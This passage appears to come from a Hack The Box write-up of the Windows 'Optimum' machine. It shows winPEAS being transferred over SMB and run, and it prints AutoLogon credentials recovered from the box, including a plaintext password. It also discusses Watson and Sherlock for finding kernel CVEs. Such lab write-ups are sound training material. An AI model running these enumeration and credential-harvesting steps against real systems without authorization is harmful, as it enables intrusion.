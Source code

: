 I started with [WinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS) to look for escalation paths. I cloned a copy of the repo to my host, started an SMB server in the path with the Windows exe with `sudo smbserver.py share . -smb2support`, and copied it to Optimum:

```
PS C:\programdata> copy \\10.10.14.10\share\winPEAS.exe . 
```

Now I’ll run it with `.\winPEAS.exe`. Scanning through the output, there were a few interesting things.

The box is Windows Server 2012 R2, and 64-bit:

```
    Hostname: optimum                               
    ProductName: Windows Server 2012 R2 Standard
    EditionID: ServerStandard                       
    ReleaseId:                                      
    BuildBranch:                                    
    CurrentMajorVersionNumber:                      
    CurrentVersion: 6.3                             
    Architecture: AMD64
```

There were creds for kostas:

```
  [+] Looking for AutoLogon credentials
    Some AutoLogon credentials were found!!
    DefaultUserName               :  kostas
    DefaultPassword               :  kdeEjDowkS*    
```

A bunch of services were called out as potentially interesting, but nothing in there really panned out.

### Enumeration - Watson/Sherlock

One thing I noticed was not in the winPEAS output was [Watson](https://github.com/rasta-mouse/Watson) results. Watson is a quick checker for CVEs this Windows host might be vulnerable to, and in the original HTB days, that was a common escalation technique (in fact, it is the intended path on this host). My best guess as to why it didn’t run is the .NET version required by Watson in winPEAS is 4.5, and this host only has up to 4.0:

```
PS C:\windows\microsoft.net\framework> ls


    Directory: C:\windows\microsoft.net\framework


Mode                LastWriteTime     Length Name
----                -------------     ------ ----
d----         22/8/2013   6:39 ??            v1.0.3705
d----         22/8/2013   6:39 ??            v1.1.4322
d----         22/8/2013   6:39 ??            v2.0.50727
d----         20/3/2021   8:06 ??            v4.0.30319
...[snip]...
```

